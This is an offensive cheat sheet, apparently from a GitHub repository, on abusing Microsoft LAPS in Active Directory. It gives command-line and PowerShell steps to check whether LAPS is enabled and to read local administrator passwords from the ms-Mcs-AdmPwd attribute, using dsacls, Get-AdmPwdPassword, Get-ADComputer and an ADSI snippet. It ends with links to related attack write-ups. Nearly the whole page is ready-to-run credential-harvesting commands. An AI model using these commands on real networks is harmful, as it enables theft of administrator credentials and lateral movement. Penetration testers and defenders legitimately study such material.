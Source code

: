 # Living off the Land

## 01 - Enumerate

Check the registry entry if LAPS is enabled.

```
C:\> reg.exe query "HKLM\SOFTWARE\Policies\Microsoft Services\AdmPwd" /v AdmPwdEnabled

PS C:\> Get-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft Services\AdmPwd" -Name "AdmPwdEnabled"
```

Check if that folder exists and contains `AdmPwd.dll`.

```
C:\> dir "C:\Program Files\LAPS\CSE"

PS C:\> Get-ChildItem -Path "C:\Program Files\LAPS\CSE"

PS C:\> Get-ChildItem -Path "C:\Program Files\LAPS\CSE\Admpwd.dll"
```

Enumerate native LAPS PowerShell cmdlets if they are installed.

```
PS C:\> Get-Command *AdmPwd*
```

## 02 - Harvest Credentials

### 2.1 - Command Prompt

If RSAT is enabled then look for `ms-MCS-AdmPwd`.

```
C:\> dsacls.exe "OU=Managed Computers - LAPS,DC=<DOMAIN>,DC=<TLD>"
```

### 2.2 - PowerShell

Find the principals that have **ReadProperty** on `ms-Mcs-AdmPwd`.

```
PS C:\> Get-AdmPwdPassword -ComputerName <IP> | Format-List
```

Enable RSAT then look for `ms-MCS-AdmPwd`.

```
PS C:\> Import-Module ActiveDirectory

PS C:\> Get-ADComputer -Identity LAB-WIN7CLONE -Properties *
```

You can use **ADSI (Active Directory Service Interfaces)** to retrieve computer properties if RSAT isn't installed or enabled.

```powershell
PS C:\> $domain = New-Object DirectoryServices.DirectoryEntry("LDAP://OU=Managed Computers - LAPS,DC=<DOMAIN>,DC=<TLD>")
$user = $domain.Get_Children().find('CN=<COMPUTERNAME>')
$user | Format-List *
```

---
## References

### Hacktricks

- [Hacktricks: LAPS](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/index.html)

### ADSecurity

- [ADSecurity: Microsoft Local Administrator Password Solution (LAPS)](https://adsecurity.org/?p=1790)

### Hacking Articles

- [Hacking Articles: Credential Dumping - LAPS](https://www.hackingarticles.in/credential-dumpinglaps/)

### ExploitDB

- [Exploit DB: Abusing LAPS](https://www.exploit-db.com/docs/english/50680-abusing-laps---paper.pdf)

### Akijosberry

- [Akijosberry: Malicious use of Microsoft LAPS](https://akijosberryblog.wordpress.com/2019/01/01/malicious-use-of-microsoft-laps/)